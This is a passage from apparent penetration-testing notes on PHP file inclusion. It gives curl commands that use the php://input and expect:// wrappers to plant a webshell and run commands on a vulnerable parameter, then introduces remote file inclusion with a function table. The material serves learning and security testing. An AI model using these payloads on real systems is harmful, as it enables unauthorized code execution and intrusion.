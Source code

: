 ### Input

The difference between the [input](https://www.php.net/manual/en/wrappers.php.php) and the data wrapper is that for the former, the vulnerable parameter must also accept `POST` requests. If the function only accepts `POST` requests, we can create a static webshell by putting the command directly within the PHP code.

{% code overflow="wrap" %}
```shell
# Getting RCE with the input wrapper (GET & POST)
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
# Getting RCE with the input wrapper (POST only)
curl -s -X POST --data '<?php system("id"); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
{% endcode %}

### Expect

The  [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper is an external wrapper, i.e., it need to be manually installed and enabled, which allows us to directly run command through URL streams. We can check if that is the case similarly to the [`allow_url_include`](rce.md#allow_url_include) and grepping for `expect.`

{% code overflow="wrap" %}
```shell
# Checking if the except extension is installed
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
# Getting RCE using expect
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
{% endcode %}

## RFI

If the vulnerable function allows the inclusion of remote URLs, then we can also perform a RFI[^1] attack, which allows for gaining RCE by including a malicious script that we host and enumerating local-only ports.

<table><thead><tr><th width="299">Function</th><th align="center">Read Content</th><th align="center">Execute</th><th align="center">Remote URL</th></tr></thead><tbody><tr><td><strong>PHP</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><code>file_get_contents()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">✅</td></tr><tr><td><strong>Java</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>import</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><strong>.NET</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>@Html.RemotePartial()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">✅</td></tr><tr><td><code>include</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr></tbody></table>


[^1]: Remote File Inclusion
